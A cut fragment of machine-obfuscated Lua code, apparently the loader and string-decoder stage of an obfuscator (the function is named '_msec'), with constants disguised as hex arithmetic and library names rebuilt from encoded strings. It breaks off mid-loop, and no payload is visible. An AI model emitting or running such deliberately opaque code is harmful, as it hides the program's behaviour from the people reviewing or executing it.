 ,nil,nil;(function() _msec=(function(e,d,l)local T=d[(0x47+-24)];local X=l[e[(1428-0x2e5)]][e[(0x630-805)]];local j=(0x20c/131)/(82-((-0x77+8919)/0x6e))local c=(428/((705-0x185)+-0x66))-(167/0xa7)local G=l[e[(0x3d7f/91)]][e[(38070/0x8d)]];local Y=(0x2f+((41+-0x44)+-0x13))+(0x24-34)local k=l[e[(-0x46+653)]][e[(0x712-960)]]local n=(0x1d-27)-(((-9271/0x7f)+151)+-77)local f=((0x171+(-0x31+(-0x6+-58)))/0x80)local t=((0x3528/(545-(0x187+-89)))-54)local v=(20-((0xe41+(-29403/0xf3))/0xc4))local x=((((-33+(-0x65+38))+39)+0x8a)-0x4f)local g=((-0x19+((-126+0x130)-134))+-0x11)local h=(-44+(((-0x338d/159)+0xd9f)/0x4a))local _=(0x1cb/(0x1a1-(2376/(18/0x2))))local r=(67-(169+((-0x64b0+12861)/0x7b)))local s=(124-((-0x4c+(-22+-0x16))+241))local u=(((((478988-0x3a7bc)-0x1d3bc)/95)/7)/0x3c)local b=((42840/(((0x6cde-13962)/0x72)+-20))/140)local w=(-61+(0x7b+(0x1a+(-44-0x29))))local N=(134-(-0x70+((5397-0xaaf)/0xb)))local y=(-0x78+(0x127-((0x7da5+-17)/0xbc)))local p=((0x121-(36864/(25728/0x86)))-0x5d)local V=(((266684/(0xe0+-103))/0x3a)-0x22)local M=(23+(-0x49+(-0x4b+(0x169-232))))local E=(((-46+(266+(-0x17-48)))-0x76)+-27)local C=e[(2684-(2810-0x5a9))];local R=l[e[(368-0xc3)]][e[(0x416-570)]];local z=l[(function(e)return type(e):sub(1,1)..'\101\116'end)('ртууршяр')..'\109\101'..('\116\97'or'пятхдыяш')..e[(43142/0x4a)]];local J=l[e[((0xa488/60)+-0x77)]][e[(4900/0x5)]];local W=(123-0x79)-((450-(57888/0xc9))/0x51)local F=((263-(-0x67+(0x23a-307)))-101)-(-69+0x47)local Q=l[e[(8304/(0xce-158))]][e[(0x1bb4/18)]];local a=function(l,e)return l..e end local B=(129-0x7d)*(((0x4e2+-123)-0x247)/0x88)local K=l[e[((-113+0x9ba)-0x4e3)]];local o=(382/0xbf)*((0xfca80/(0x1301/139))/231)local P=(2085-0x425)*((185-(26058/0xca))-54)local L=(((31720-0x3e18)/0x5c)-120)local S=(96/((-40-0x15)+0x6d))*(0x172/185)local m=l[e[(1046+-0x1e)]]or l[e[(0x2303a/246)]][e[(1046+-0x1e)]];local i=(((-109+-0x1dbb)/193)+0x128)local e=l[e[(153360/0x78)]];local J=(function(a)local x,d=2,0x10 local l={j={},v={}}local o=-n local e=d+c while true do l[a:sub(e,(function()e=x+e return e-c end)())]=(function()o=o+n return o end)()if o==(B-n)then o=""d=W break end end local o=#a while
e